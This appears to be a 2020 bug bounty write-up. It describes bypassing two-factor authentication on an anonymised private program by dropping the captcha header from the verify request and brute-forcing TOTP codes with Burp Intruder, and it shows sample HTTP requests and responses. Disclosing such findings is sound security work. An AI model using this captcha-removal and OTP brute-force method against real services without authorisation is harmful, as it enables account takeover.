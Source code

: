 ```yaml
---
date: 2020-06-20 22:55:45
layout: post
title: 2FA Bypass
description: 2fa bypass in a private program
image: https://i.ibb.co/pftczhd/2fa-bypass.png
optimized_image: https://i.ibb.co/pftczhd/2fa-bypass.png
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## How I bypassed 2fa in a 3 years old private program!

When I was invited to this private program say "private.com" I was bit discouraged as it was 3 years old program with only 3 eligible scope and I thought that many hackers must have hammered it hard and finding a bug here would just be a waste of time.

But any way I started IDK why ...FFF..

![Alt Text](https://i.ibb.co/s1XLQtp/idk.gif)

So after doing some dirsearch I found 2 open redirects in like ~ 3 mins...But got a duplicate when I submitted the report.

Then I jumped to app.private.com to try some auth flaws and with a hope that no one ever looked here even though it's a 3 year old program...just in case ?

![Alt Text](https://media.giphy.com/media/8GclDP2l4qbx6/giphy.gif)

After trying some things I decided to try some rate limit checks on login and 2fa things ...Both login and 2fa where protected from google captcha :/

So I tried to remove the captcha header from the request to see if web app is blocking any client side changes...and login request gave me "Invalid Captcha"...But 2fa didn't !

- Request with no google captcha headers

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"123456"}
```
- Response 

```
HTTP/1.1 401 Unauthorized
Date: Thu, 18 Jun 2020 06:08:12 GMT
Content-Type: application/json
Content-Length: 36
Connection: close
Access-Control-Allow-Origin: https://app.private.io
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Wrong code! Try again."}
```
No "Invalid Captcha" response now.

![Alt Text](https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif)

Time to spin up the intruder and brute the code !...I used burp pro as I can change the threads. You can use turbo intruder or a simple Python/Go code with concurrent requests to brute it.

But web app uses Google Authenticator so we have only like ~ 59 secs to get the code 

So I used 888 threads with 500 steps ( I could make it more fast and stable with some basic go codes but anyway I only had to give a poc that this attack works).

![Alt Text)(https://i.ibb.co/48xDJFM/attack-prep3.png)

![Alt Text](https://i.ibb.co/b3hLFPV/attack-prep2.png)

After like ~ 7 or 9 tries I managed to hit the correct TOTP (game of luck and correct time)

- Request

```
```

- Response 

```
HTTP/1.1 200 OK
Date: Thu, 18 Jun 2020 06:12:08 GMT
Content-Type: application/json
Content-Length: 38
Connection: close
Access-Control-Allow-Origin: https://app.private.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Verification successfull"}
```
Submited the report and got the the bounty $$

- Takeaway
 - Just try even if at first sight it dosen't make sense
 - Don't Give Up
